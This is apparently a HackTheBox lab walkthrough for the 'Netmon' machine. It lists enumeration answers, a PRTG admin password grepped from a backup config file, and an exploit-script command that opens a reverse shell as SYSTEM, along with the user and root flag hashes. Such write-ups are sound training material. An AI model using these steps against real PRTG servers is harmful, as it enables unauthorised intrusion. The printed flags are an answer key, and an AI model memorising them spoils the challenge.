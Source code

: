 
# HackTheBox Walkthrough - Machine: Netmon

**Target IP**: 10.129.197.170  
**Difficulty**: Easy/Medium  
**Objective**: Exploit default credentials and backup config to gain access to the PRTG web application and escalate to SYSTEM privileges.

---

## 🧭 Enumeration & Exploitation

### 🔍 Task 1: What is the name of the application running on port 80?  
**Answer**: `PRTG Network Monitor`  
> Identified via Nmap and website banner

---

### 🔍 Task 2: What service is running on TCP port 21?  
**Answer**: `FTP`  
> Anonymous FTP login allowed

---

## 🧑‍💻 Submit User Flag  
**Flag Path**: `/Users/Public/Desktop/user.txt`  
**Answer**: `6471d785b2b4095cac5e40105591ce41`

---

### 📁 Task 4: What is the full path of the folder where PRTG Network Monitor saves its configuration files by default?  
**Answer**: `C:\ProgramData\Paessler\PRTG Network Monitor`  
> From official documentation and online sources

---

### 🗃️ Task 5: What is the name of the backup config file?  
**Answer**: `PRTG Configuration.old.bak`  
> Located inside configuration directory

---

### 🔐 Task 6: What was the prtgadmin user's password according to that file?  
**Answer**: `PrTg@dmin2018`  
> Extracted using:
```bash
grep -A 10 'prt' PRTG\ Configuration.old.bak
```

---

### 🔐 Task 7: What is the prtgadmin user's password on the website now?  
**Answer**: `PrTg@dmin2019`  
> Year incremented → commonly updated default credentials

---

### ℹ️ Task 8: What version of PRTG is installed?  
**Answer**: `18.1.37.13946`  
> Found after login as prtgadmin → under Update section

---

### 👤 Task 9: Which user is this software running as by default?  
**Answer**: `system`  
> Verified using exploit script with reverse shell and `whoami` command:
```bash
python exploit.py -i 10.129.197.170 -p 80 --lhost 10.10.14.99 --lport 9999 --user prtgadmin --password PrTg@dmin2019
whoami
nt authority\system
```

---

## 👑 Submit Root Flag  
**Flag Path**: `C:\Users\Administrator\Desktop\root.txt`  
**Answer**: `df57e711fe414afc1356baaf35e33be3`

---
